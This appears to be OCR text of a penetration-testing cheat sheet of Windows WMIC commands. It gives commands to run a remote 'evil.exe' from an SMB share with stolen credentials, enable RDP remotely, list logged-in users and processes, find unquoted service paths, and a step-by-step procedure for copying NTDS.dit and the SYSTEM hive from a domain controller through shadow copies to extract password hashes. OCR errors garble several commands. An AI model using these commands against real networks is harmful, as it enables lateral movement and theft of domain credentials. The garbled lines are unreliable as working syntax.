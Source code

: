 EXECUTE FILE HOSTED OVER SMB ON REMOTE SYSTEM WITH SPECIFIED CREDENTIALS

wmic /node: targetIP /user:domain\user /password:password process call create "\\ smbIP \share\evil.exe"


UNINSTALL SOFTWARE

wmic product get name /value	# Get software names
wmic product where name="XXX" call uninstall /nointeractive


REMOTELY DETERMINE LOGGED IN USER

wmic /node:remotecomputer computersystem get username


REMOTE PROCESS LISTING EVERY SECOND

wmic /node:machinename process list brief /every:1


REMOTELY START RDP

wmic /node:"machinename 4" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"


LIST NUMBER OF TIMES USER HAS LOGGED ON

wmic netlogin where (name like "%adm%") get numberoflogons


SEARCH FOR SERVICES WITH UNQUOTED PATHS TO BINARY

wmic service get name,displayname,pathname,startmode Ifindstr /i "auto" Ifindstr /i /v "c:\windows\\" Ifindstr /i /v


VOLUME SHADOW COPY

1. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process call create "cmd /c vssadmin list shadows 2 &1
c:\temp\output.txt"

# If any copies already exist then exfil, otherwise create using following commands. Check output.txt for any errors

2. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process call create "cmd /c vssadmin create shadow /for=C: 2 &1 C:\temp\output.txt"
3. wmic /node: DC IF /user:"DOMAIN\user" /password:"PASS" process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyl\Windows\System32\config\SYSTEM C:\temp\system.hive 2 &1	C:\temp\output.txt"
4. wmic /node: DC IF /user:"DOMAIN\user" /password:"PASS" process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyl\NTDS\NTDS.dit
C:\temp\ntds.dit 2 &1	C:\temp\output.txt"

# Step by step instructions on room362.com for step below

5. From Linux, download and run ntdsxtract and libesedb to export hashes or other domain information
a. Additional instructions found under the VSSOWN section
b. ntdsxtract - http://www.ntdsxtract.com
c. libesedb - http://code.google.com/p/libesedb/
